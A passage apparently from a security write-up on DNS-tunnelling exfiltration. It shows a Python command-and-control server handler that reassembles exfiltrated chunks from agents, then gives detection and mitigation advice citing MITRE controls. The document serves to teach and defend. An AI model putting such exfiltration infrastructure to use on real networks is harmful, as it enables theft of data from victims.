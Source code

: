```python
    chunk_size = len(chunk_data)

    agent_session = SESSIONS[agent_id]
    message_data = agent_session["messages"][message_id]
    
    if message_data["load_size"] == 0:
        message_data["load_size"] = chunk["size"]

    message_data["chunks"][chunk_index] = chunk_data
    message_data["loaded_size"] = message_data["loaded_size"] + chunk_size

    is_completed = message_data["loaded_size"] == message_data["load_size"]

    if is_completed:
        assembled_data = assemble_data(message_data)
        message_data["data"] = assemble_data(message_data)
        del message_data["chunks"]
        del message_data["loaded_size"]
        del message_data["load_size"]

    agent_session["messages"][message_id] = message_data
    SESSIONS[agent_id] = agent_session

    write_in_json(SESSIONS_DATA, SESSIONS)
    update_callback(agent_id)

    return response
```

If the chunk exfiltration (load) is completed, the server stores the result of each task in the corresponding agent and message; it makes it possible to show data in a graphic interface if there is one.
**Insert demostration video**

![demo.gif](../images/demo.gif)

## Detection and Mitigation

How do you detect and mitigate these techniques? , first to detect network packets can be analyzed to detect suspicious patterns, for example, and anomalous syntax, like the generated **FQDN** in the example above; checking for rare responses can help to detect these malicious activities. because an **A** or **AAAA** request should be responded to with **IPv4** or **IPv6** and not with other data, and it isn't common that a normal client sends a request with encoded labels.

Checking the request destination may reveal an **Indicator of Compromise** (IOC) based on the IP and not only on the domain, because some agents use domain names similar to normal sites or CDN services to send requests.

To avoid these activities, filter the network traffic to mark some domains or IPs as untrusted, disrupting the attackers' activities ([MITRE M1037]([https://attack.mitre.org/mitigations/M1037](https://attack.mitre.org/mitigations/M1037))). Also, the implementation of intrusion detection systems can detect malicious activities at the network level based on signatures that identify traffic for specific malware or threat actors ([MITRE M1031]([https://attack.mitre.org/mitigations/M1031](https://attack.mitre.org/mitigations/M1031)))
